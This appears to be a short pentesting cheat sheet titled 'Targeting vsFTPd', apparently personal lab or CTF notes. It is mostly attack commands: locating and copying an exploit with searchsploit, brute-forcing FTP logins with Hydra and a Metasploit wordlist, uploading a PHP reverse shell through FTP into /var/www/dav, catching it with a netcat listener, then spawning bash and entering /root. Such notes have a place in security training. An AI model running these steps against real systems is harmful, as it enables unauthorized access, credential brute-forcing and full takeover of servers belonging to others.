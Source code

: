 # Targeting vsFTPd

## Searchsploit
searchsploit vsftd

searchsploit -m ##.py

vim (path) check on how to run

Chmod +x (path)

## Brute Force

Hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt TARGET ftp (might need to change to unix_passwords)

## Obtain reverse shell (upload shell)

Ls -al /usr/share/webshells/

Cp /usr/share/webshells/php/php-reverse-shell.php .
 
Mv php-reverse-shell.php shell.php

Vim shell.php

Edit the script for the IP

Open a netcat listener

Another terminal

Nc -nvlp 1234

Ftp TARGET PORT

Cd /

Cd /var/www

Cd dav

Put shell.php

Http TARGET

Navigate to dav/shell.php

Back to listener 

/bin/bash -i

Cd /root

Get info



